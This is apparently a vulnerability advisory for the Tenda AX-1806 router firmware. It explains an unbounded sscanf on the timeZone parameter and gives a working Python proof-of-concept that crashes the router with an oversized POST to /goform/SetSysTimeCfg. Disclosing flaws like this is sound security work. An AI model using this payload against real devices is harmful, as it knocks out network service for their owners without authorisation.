

# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen


## Vulnerability cause

In the function fromSetSysTime, the timeZone value is obtained from user-controlled input via v2 = (const char *)sub_295C8(a1, "timeZone", &unk_1C2CF0) and is then parsed using _isoc99_sscanf(v2, "%[^:]:%s", &v22, &v26) when the input contains a colon. The format string "%[^:]:%s" does not specify any maximum field width for either conversion, and the destination buffers &v22 and &v26 point into small fixed-size stack regions backed by adjacent local variables. Because the "timeZone" parameter is directly supplied by the user and no length restriction is enforced, an attacker can craft an excessively long timeZone value containing a colon to satisfy the check and cause _isoc99_sscanf to write beyond the bounds of the target buffers. This results in a stack-based buffer overflow that corrupts adjacent stack memory and can overwrite neighboring variables or control data, ultimately causing a crash and leading to a Denial of Service condition.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/SetSysTimeCfg"

timeZone = "A"*7 + ":" + "B"*7000
data = {
"timeZone": timeZone
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>